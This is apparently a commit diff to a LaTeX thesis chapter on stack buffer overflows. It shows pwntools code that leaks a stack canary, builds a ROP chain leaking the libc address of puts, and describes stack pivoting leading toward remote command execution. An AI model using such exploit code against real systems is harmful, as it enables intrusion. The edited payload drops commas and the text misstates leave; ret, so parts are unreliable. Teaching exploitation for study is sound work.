

Before and after one commit to Ferr0x/thesis, a LaTeX thesis (main.tex, which reads Chapters/Bof.tex): two parts of pages 25 and 28 of 69 before the commit and two parts of pages 25 and 28 of 71 after it, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
ended stack exploit

```diff
--- a/Chapters/Bof.tex
+++ b/Chapters/Bof.tex
@@ -246,7 +246,7 @@ To understand the mitigations the pwntools library help us, in fact there is a f
     exploit code to leak the canary:
     \begin{verbatim}
     io.sendafter(b">", b"A"*56) # sending after char ">" 56*A
-    io.recvuntil(b'Hello '+ b'A'*56) #recive the output until HelloAAAA....A
+    io.recvuntil(b'Hello '+ b'A'*56)
     canary=io.recv(8) # save the canary
     svb=io.recvuntil(b'Nice' , drop=True)
     canary=b"\x00"+canary[1:8] # fixing the byte we overwrite to leak the canary
@@ -320,19 +321,21 @@ To understand the mitigations the pwntools library help us, in fact there is a f
         pop_rdi=0x4012fb
         puts1=0x84420
         payload2=flat(
-             p64(pop_rdi),#address of pop rdi
-             p64(exe.got.puts),#address of got puts fucnion
-             p64(exe.sym.puts),#address that will actualy print the got puts addres
-             p64(0x00401292), #ret
-             p64(exe.sym.main),#calling main again
-             b'A'*16,#fill the remaining space of the buffer
-             p64(real_canary), #send the canary to bypass the canary mitigation
-             p64(target_bp), #send the target base pointe
+             p64(pop_rdi),
+             p64(exe.got.puts)
+             p64(exe.sym.puts)
+             p64(0x00401292),
+             p64(exe.sym.main),
+             b'A'*16,
+             p64(real_canary),
+             p64(target_bp),
         )
         io.sendafter(b">", payload2)
     \end{verbatim}
 
-    Here is the exploit as we can see at the beginning I saved the addresses of pop rdi which is very useful because it allows us to populate the contents of the syscall, then the address of puts without base and then calculate it later.\newline
-    Subsequently I will write the rop that will allow me to do stack pivoting and leak the puts address to calculate the base of the libc.\newline
-
-    DEVO RI EXPLOITARE LA CHALLENGE NON RICORDO DELLE COSE LOL
+    in this specific case we don't have space to write the rop chain after the return address so previously in addition to the canary I saved the base pointer so as to overwrite the current base pointer with the value of the previous leaked one -0x68 (size of our stack frame).\newline
+    By doing this, when we go to call the return we will perform a stack pivoting so we will move the stack and we will correctly leak the contents of the libc.\newline
+    The call that will allow us to do stack pivoting is the leave ret call that is made every time we exit a function.\newline
+    In fact leave ret executes the following instructions mov rsp,rbp; pop rbp; por rdi;\newline
+    Subsequently we will perform the same attack but instead of leaking libc we will perform remote command execution, following is the code that allowed us to launch this attack.\newline
+    \begin{verbatim}
```
Also changed, not shown: Images/rce_stack_chall.png (added), Chapters/Bof.tex (19 more changed lines).
